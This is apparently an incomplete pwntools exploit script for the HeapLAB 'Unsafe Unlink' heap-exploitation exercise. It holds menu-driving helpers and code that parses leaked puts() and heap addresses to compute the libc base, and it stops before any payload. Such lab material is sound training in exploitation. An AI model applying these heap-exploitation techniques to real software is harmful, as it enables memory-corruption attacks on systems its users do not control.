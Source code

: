 ```python
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

"""
./unsafe_unlink 

===============
|   HeapLAB   |  Unsafe Unlink
===============

puts() @ 0x738c414675a0
heap @ 0x5b6e25b9a000

1) malloc 0/2
2) edit
3) free
4) quit
> 

"""

def malloc(size):
    global idx
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'size:', str(size).encode())
    idx += 1   
    return idx - 1

def edit(idx, data):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'index:', str(idx).encode())
    io.sendlineafter(b'data:', data)              

def free(idx):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'index:', str(idx).encode())

io = start()

io.recvuntil(b'puts() @ ')

# puts
puts = io.recvline().strip().decode()
puts = int(puts, 16)
libc.address = puts - libc.sym.puts
log.info(f'libc base: {hex(libc.address)}') 

# heap
io.recvuntil(b'heap @ ')
heap = io.recvline().strip().decode()
heap = int(heap, 16)
log.info(f'heap base: {hex(heap)}')


idx = 0

```